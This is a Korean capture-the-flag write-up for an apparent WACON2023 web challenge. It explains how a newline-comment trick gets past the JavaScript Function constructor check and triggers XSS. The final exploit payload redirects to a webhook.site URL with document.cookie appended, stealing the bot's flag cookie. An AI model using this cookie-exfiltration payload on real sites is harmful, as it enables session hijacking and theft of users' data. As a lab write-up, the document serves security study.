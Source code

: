 먼저, Function 생성자 함수는 인수로 전달받은 값을 함수로 변환하는 작업을 진행합니다.

예를 들어서 alert(1)이라는 문자를 Function 생성자 함수로 전달하게 된다면, 이를 함수로 만들기 위해 변환하려고 시도합니다. 만약 변환이 실패하게 된다면 오류가 발생됩니다.

하지만 Function 생성자 함수는 상대적으로 오류에 대해 관대하고, 왠만한 오류는 그냥 무시하고 예외를 발생시키지 않습니다. (null.obj() 를 Function 생성자 함수의 인자로 보내주게 된다면 이를 에러로 발생시키지 않습니다.)

여러가지 방법을 생각해봤을때 주석(개행)을 사용하게 된다면 Function 함수에서는 에러를 발생시키고, 스크립트를 실행시킬 수 있습니다.

```js
alert(1)
//
let 2as
```

아래와 같은 payload를 확인해보겠습니다.

```js
alert(1);//%0alet 24a
```

먼저 let 24a는 javascript의 변수 명명 규칙을 위반하는 생성방법입니다. (숫자가 변수명의 맨 앖에 위치할 수 없습니다.)

Function 생성자함수는 해당 규칙을 위반하였음으로 오류를 발생시키게됩니다, 하지만 오류가 발생하고 innerText로 payload가 삽입될 때에는 %0a라는 개행문자가 무시되고 결과적으로 let 24a라는 문자가 주석처리됩니다.

아래와 같은 원리로 동작합니다.

```
payload = "alert(1);//%0alet 23a";

Function(payload) -> %0a(\n) alert(1); // \n let 23a -> "Error"

element.innerText = payload -> alert(1) // let 23a -> "Ok"
```

해당 payload를 그대로 챌린지 사이트에 넣고 실행해보면 XSS가 트리거되는 것을 알 수 있습니다.

![Alt text](https://blog.kakaocdn.net/dn/C5euO/btsv7Bh8RQq/Na1rA2b3WEnBkCF6xirqF1/img.png)

이를 이용해서 webhook을 이용해 사이트의 쿠기값을 보내게하는 코드를 작성하게 된다면, bot으로 요청을 보냈을 때 webhook으로 저장된 flag 쿠키가 보내지게 될 것입니다.

### Exploit

요구조건에 맞는 Exploit payload를 아래와 같이 작성합니다.

```js
location.href="https://webhook.site/b1d8c7e2-0203-453e-b7c6-8d36d365655c/?"+document.cookie;//%0alet 23a
```

해당 payload를 bot으로 보내게 된다면 성공적으로 Exploit에 성공하여, FLAG를 얻을 수 있습니다.

여기서 주의할점은 방문할 URL의 host를 bot 서버의 host로 지정해주어야 성공적으로 cookie값을 읽어올 수 있습니다.

docker-compose 파일을 확인해보면 어디로 요청을 보내야 FLAG 쿠키를 읽을 수 있는지 알 수 있습니다.

```yml
version: "3.9"
services:
  bot:
    build: ./bot/
    restart: always 
    environment:
      - "FLAG=WACON2023{test-flag}"
      - "CAPTCHA_SECRET="
    ports:
      - "8001:8000"
  web:
    image: nginx
    restart: always 
```